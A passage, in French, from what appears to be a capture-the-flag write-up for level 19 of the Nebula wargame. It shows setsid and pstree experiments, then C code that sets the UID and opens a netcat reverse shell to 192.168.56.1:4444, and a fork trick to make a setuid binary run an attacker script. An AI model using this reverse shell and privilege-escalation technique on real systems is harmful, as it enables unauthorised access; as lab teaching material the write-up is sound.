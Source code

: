 Je pensais d'abord pouvoir utiliser la commande `setsid` qui se présente de cette façon :

>       setsid lance un programme dans une nouvelle session. La commande appelle fork(2) s'il y a déjà un meneur de groupe de processus. Sinon, il exécute un programme dans le processus actuel. Ce  
>       comportement par défaut peut être outrepassé avec l'option --fork.

En effet si je lance la commande `setsid top` je peux voir `top` se lancer dans le terminal et si je lance `pstree` depuis un autre terminal je vois ceci :

```
init─┬─atd
     ├─cron
     ├─dbus-daemon
     ├─dhclient3
     ├─6*[getty]
     ├─lua
     ├─python
     ├─rsyslogd───3*[{rsyslogd}]
     ├─sshd─┬─3*[sshd───sshd───sh]
     │      └─sshd───sshd───sh───pstree
     ├─2*[thttpd]
     ├─top
     ├─udevd───2*[udevd]
     ├─upstart-socket-
     └─upstart-udev-br
```

Sur ce level  `setsid` lance bien le binaire mais les droits ne sont pas suffisants :

```bash
level19@nebula:/home/flag19$ setsid ./flag19 -c /bin/getflag
level19@nebula:/home/flag19$ getflag is executing on a non-flag account, this doesn't count
```

J'ai écrit le code C suivant qui fixe l'UID réel et effectif puis exécute un reverse-shell :

```c
#include <unistd.h>

int main(void) {
        setreuid(980, 980);
        system("nc.traditional -e /bin/bash 192.168.56.1 4444");
        return 0;
}
```

mais ça ne marchait pas mieux. J'ai donc du écrire mon propre code C qui fork et lance l'exécutable `flag19` :

```c
#include <unistd.h>

int main(void) {
        if (!fork()) {
                // child process
                execl("/home/flag19/flag19",  "/bin/sh",  "-c",  "/tmp/fixuid");
        }
        return 0;
}
```
